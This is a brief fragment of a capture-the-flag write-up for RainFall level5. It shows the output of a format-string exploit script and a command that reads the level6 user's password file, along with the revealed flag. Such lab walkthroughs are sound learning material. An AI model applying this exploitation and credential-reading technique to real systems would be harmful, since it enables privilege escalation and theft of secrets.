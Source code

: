Execute the payload.sh file to print level6 password:

```sh
level5@RainFall:~$ /tmp/payload.sh
@AAAA8200b7fd1ac0

[...] # After a few thousands spaces

41414141
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```